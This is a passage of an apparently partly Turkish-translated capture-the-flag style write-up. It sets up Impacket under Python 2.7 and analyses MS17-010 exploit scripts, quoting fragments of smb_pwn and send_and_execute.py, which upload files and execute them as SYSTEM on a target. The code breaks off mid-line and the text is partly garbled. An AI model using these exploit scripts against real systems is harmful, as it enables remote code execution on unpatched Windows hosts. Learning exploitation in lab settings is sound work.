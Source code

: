 
Şimdi etkinleştirdiğimde, güncelleme istemini alıyorum ve python python2.7:

```
oxdf@parrot$ source impacket-venv/bin/activate
(impacket-venv) oxdf@parrot$ python -V
Python 2.7.18
```

I’ll install `pip`:

```
(impacket-venv) oxdf@parrot$ wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
...[snip]...
(impacket-venv) oxdf@parrot$ python get-pip.py
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details
 about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
Collecting pip<21.0
  Using cached pip-20.3.4-py2.py3-none-any.whl (1.5 MB)
Installing collected packages: pip
  Attempting uninstall: pip
    Found existing installation: pip 20.3.4
    Uninstalling pip-20.3.4:
      Successfully uninstalled pip-20.3.4
Successfully installed pip-20.3.4
```

Now finally install Impacket:

```
(impacket-venv) oxdf@parrot$ pip install -r requirements.txt
...[snip]...
(impacket-venv) oxdf@parrot$ pip install .
...[snip]...
```

#### Script Analysis

Bildiğim en iyi MS17-010 Python scriptleri [worawit](https://github.com/worawit/MS17-010)'ten geliyor. Bunlar iyi çalışıyor, ancak kullanımı biraz kafa karıştırıcı. [helviojunior](https://github.com/helviojunior/MS17-010) bu depoyu forkladı ve gerçekten kullanışlı olan tek bir send_and_execute.py ekledi. Bu sadece orijinal zzz_exploit.py scripti için bir güncellemedir, ancak bir dosya yüklemek ve sistem olarak çalıştırmak için değiştirilmiştir.

zzz_exploit.py'de smb_pwn adında bir fonksiyon vardır:

```
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	
	print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C

"Bu, exploit ile gerçekleştirilen eylemdir. Bu durumda, herhangi bir değişiklik yapılmadan (mod olmadan), hedef sistemde **C:\pwned.txt** dosyasını oluşturuyor. Ancak yorum satırına alınmış (commented out) kodlar, bu dosyadaki fonksiyonların hedef sisteme dosya yüklemek (**smb_send_file**) ve bir servis olarak komut çalıştırmak (**service_exec**) için nasıl kullanılabileceğini gösteriyor.

Güncellenmiş **send_and_execute.py** dosyası, komut satırı argümanlarını işlemek için bazı eklemeler yapıyor ve ardından bu fonksiyonu içeriyor:"

```
def send_and_execute(conn, arch):
	smbConn = conn.get_smbconnection()
